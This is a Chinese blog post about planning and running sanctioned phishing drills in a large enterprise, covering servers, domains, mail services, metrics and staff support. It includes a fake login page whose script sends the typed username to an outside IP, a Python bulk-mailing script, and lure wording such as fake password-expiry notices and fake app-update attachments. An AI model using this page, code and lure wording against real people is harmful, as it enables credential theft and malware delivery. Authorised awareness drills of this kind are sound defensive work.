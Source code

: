 

# 企业钓鱼演练的一些总结和经验 - 先知社区

企业钓鱼演练的一些总结和经验

- - -

# 前言

钓鱼，搞攻防的师傅们，做红队的师傅们都知道，但是对于在企业实施演练，具体的各种细节，只有经历过一次，把坑踩过了，才知道一些注意事项，阿鑫分享一下大型企业钓鱼演练的一些总结和经验，希望下次有师傅做这个，能够看到阿鑫的文章，避免踩到坑

# 钓鱼准备

首先是我们攻击方，需要准备的东西，钓鱼的主题，服务器，域名，邮件服务器这三样东西，我们一个一个细说  
关于钓鱼的主题，可能是钓账号密码，可能是是恶意附件钓鱼演练。  
主题定了，最重要的是要给领导们看数据：  
如果是恶意附件钓鱼演练，相应的企业对于一些恶意附件的点击可以做一个数据统计，这个比较简单，多少人点了，多少人没有点，这个数据比较直接，钓鱼的恶意附件的demo就是弹框，温馨的提示员工们不要随意运行不信任的文件，顺便在附上一个链接，链接里面的内容就是各种办公安全的小tips啥的，然后还需要建立一个公关群，给员工们答疑，此外，恶意附件一般可通过邮件发送，当然，如果公司的体量巨大，那我们还有以下几点需要注意：  
（1）邮件肯定是有策略的，我们需要多和邮件部门的同学沟通多要几个账号，以及邮件内容尽量减少触发风控的规则  
（2）文件白名单，某些企业对于未知的应用是有弹框的，可以考虑和文件白名单的同学沟通

如果是钓账号密码，领导同意做一个交互的页面，能够存储输入的账密，那这方面的数据没有问题，也可以判断出脏数据。如果是比较大的企业，你做钓鱼演练，如果真的有员工中招了，输入了自己的账号密码，引发了数据泄露问题或者一些公关问题，所以可能就需要一个前提，在不交互的情况下如何记录数据，这里给出的解决方案是在输入的用户名处记录用户名并且跳转

```plain
<!DOCTYPE html>
<form action="">
Username: <input type="text" name="user" id="useraccount"><br>
Password: <input type="password" name="password" id="userpass">
<div class="test">
<input type="button" value="确定" onclick="check();">
</div>
<script>
function check(){
    var obj = document.getElementById("useraccount");
        if(obj.value === ""){
            alert("输入不能为空!");
            return false;
        }else{
        window.location.href = 'http://1.2.2.2/index.html?user='+document.getElementById("useraccount").value;
  　　　　return true;
        }
    }
 </script>
</form>
```

[![](assets/1705886696-061bea8aaf99ac13049c041a8e9d0782.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20221015182102-11ec3f14-4c73-1.jpg)  
下图为简单的实现效果，然后我们就可以查看服务器的apache日志记录相关的信息了，这是静态的页面收集信息的方法，此外，最简单的制作一个登陆页面的方法就是ctrl+s保存一下就行了，但是我们一定的把html里面自己的相关信息给删除掉（工号）

接下来说一说服务器，服务器就和域名一起说了吧，这个也是踩坑最多的，域名的话尽量和公司高度重合，像BAT这种大厂，他们也几乎把自己相似的域名全买了，也防止别有用心的人搞事，如果领导在短期内突然告诉你需要钓鱼，域名报备这一流程至少的花一周的时间，这个时候推荐用海外的服务器，即可解决。选服务器也一定要征求领导的意见，因为服务器涉及了钓鱼演练最核心的数据交互环节，一定要再三和领导确认用哪一家的服务器，腾讯云，阿里云都有国际版。服务器选择好了（建议1核2G，体量大就2核4G），现在需要对服务器做压力测试，公司人少的话或者抽样钓鱼可不用测，体量大的话这一环节必不可少，我推荐用http\_load。然后部署的话就正常用apache或者nginx，ssh或者smb别用弱口令就行，多余的服务，什么redis啊这些就别开了

最后说一说邮件服务器，网上已经有很多文章在介绍gophish配合ewomail打组合拳，或者配合postfix，网上有很多这种类似的文章，但是当企业的领导认为这不符合安全合规或者存在数据安全的风险，那么这条路就是不行的，如果公司跟云企业（腾讯云，华为云，阿里云等）是合作关系，可以询问领导的意见是否可以用他们的企业邮箱，他们的企业邮箱都是自带了邮件服务器，而且有各种api接口，后面体量比较大的话，批量发送邮件这个问题也能解决，比如阿里云的企业邮箱，我这里直接把代码copy过来。

```plain
# -*- coding:utf-8 -*-

import urllib, urllib2
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.application import MIMEApplication
from email.header import Header

# 发件人地址，通过控制台创建的发件人地址
username = 'xxx@xxx.com'
# 发件人密码，通过控制台创建的发件人密码
password = 'XXXXXXXX'

# 收件人地址列表，支持多个收件人，最多30个
rcptlist = ['to1@to.com', 'to2@to.com']
receivers = ','.join(rcptlist)

# 构建 multipart 的邮件消息
msg = MIMEMultipart('mixed')
msg['Subject'] = 'Test Email'
msg['From'] = username
msg['To'] = receivers

# 构建 multipart/alternative 的 text/plain 部分
alternative = MIMEMultipart('alternative')
textplain = MIMEText('纯文本部分', _subtype='plain', _charset='UTF-8')
alternative.attach(textplain)

# 构建 multipart/alternative 的 text/html 部分
texthtml = MIMEText('超文本部分', _subtype='html', _charset='UTF-8')
alternative.attach(texthtml)

# 将 alternative 加入 mixed 的内部
msg.attach(alternative)

# 附件类型
# xlsx 类型的附件
xlsxpart = MIMEApplication(open('测试文件1.xlsx', 'rb').read())
xlsxpart.add_header('Content-Disposition', 'attachment', filename=Header("测试文件1.xlsx","utf-8").encode())
msg.attach(xlsxpart)

# jpg 类型的附件
jpgpart = MIMEApplication(open('2.jpg', 'rb').read())
jpgpart.add_header('Content-Disposition', 'attachment', filename=Header("2.jpg","utf-8").encode())
msg.attach(jpgpart)

# mp3 类型的附件
mp3part = MIMEApplication(open('3.mp3', 'rb').read())
mp3part.add_header('Content-Disposition', 'attachment', filename=Header("3.mp3","utf-8").encode())
msg.attach(mp3part)

# 发送邮件
try:
    client = smtplib.SMTP()
    #python 2.7以上版本，若需要使用SSL，可以这样创建client
    #client = smtplib.SMTP_SSL()

    client.connect('smtpdm.aliyun.com')
    client.login(username, password)
    #发件人和认证地址必须一致
    client.sendmail(username, rcptlist, msg.as_string())
    client.quit()
    print '邮件发送成功！'
except smtplib.SMTPRecipientsRefused:
    print '邮件发送失败，收件人被拒绝'
except smtplib.SMTPAuthenticationError:
    print '邮件发送失败，认证错误'
except smtplib.SMTPSenderRefused:
    print '邮件发送失败，发件人被拒绝'
except smtplib.SMTPException,e:
    print '邮件发送失败, ', e.message
```

此外，批量发送每天发送的邮件数量有上限，需要合理安排每天发送钓鱼邮件的数量。

# 钓鱼期间

钓鱼期间我们需要随时查看钓鱼的数据和情况，比如邮件发送成功率这些（邮件服务器都有这些统计的功能），然后还要统计一下数据（这里以登陆口钓鱼举例）：  
（1）有多少同学只是点进去看了邮件  
（2）有多少同学点进去看了邮件并且访问了恶意网站  
（3）有多少同学访问了恶意网站输入了账密（乱输的）  
（4）有多少同学访问了恶意网站输入了账密（正确的用户名即可）  
（5）有多少同学举报了今天收到了钓鱼邮件  
钓鱼期间，一定需要建立公关答疑群，不管公司体量大还是小，因为许多同事可能真的没有什么安全经验，输入了自己的账号密码或者运行了恶意附件，然后也不知道找谁问问，又或者胡思乱想公司是不是考验我啥的或者和绩效挂钩？所以答疑群是必要的，此外，答疑群的部分同学甚至可以给出一些比较好的意见，我们也可以在钓鱼期间优化。

这里再说一说关于钓鱼文案，因为钓鱼的文案直接关乎了钓鱼成功率，这里有一个小技巧，我们可以打开公司公司的邮件，他们有图片，有颜文字，邮件其实也是html格式的，我们可以直接模仿，有图片，有颜文字的邮件可以起到一个更逼真的效果，咱们企业内部钓鱼，什么晋升，加薪，年假这些可千万不能用，很敏感的，如果要正常的登陆口钓鱼，我们可以用以下文案：  
（1）账号异常类（登陆认证过期，密码过期，账号异常等）  
（2）关于程序员需要知道的知识点（类似于这种），访问后就需要输入账号密码

如果是附件钓鱼的，我们可以用一下文案：  
（1）看公司用的啥通信软件（飞书，企业微信，钉钉），说这几款软件需要更新，需要运行我们的附件  
（2）系统更新，兼容性插件

此外，建议同一个部门别再一个时间发送，不然其他同事会相互讨论，你们有收到这封邮件么，以及相似的文案，不能相同，比如有5个钓鱼的邮件账号，我们这5个钓鱼的文案可以相似，但不能完全一模一样。

# 结尾

最后肯定就是把数据呈现给领导，发了多少封钓鱼邮件，多少输了账密，看钓鱼期间需要统计的数据，企业员工的网络安全意识也不是一朝一夕就可以发展好的，需要长久的宣传

